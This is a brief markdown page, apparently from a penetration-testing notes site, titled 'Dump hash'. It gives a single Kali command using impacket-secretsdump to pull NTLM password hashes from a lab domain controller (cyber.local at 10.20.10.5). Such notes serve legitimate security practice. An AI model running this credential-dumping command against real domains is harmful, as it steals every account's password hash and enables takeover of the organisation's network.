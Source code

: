 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Dump hash

**Kali**

```
impacket-secretsdump -just-dc-ntlm cyber.local/jessicar@10.20.10.5
```
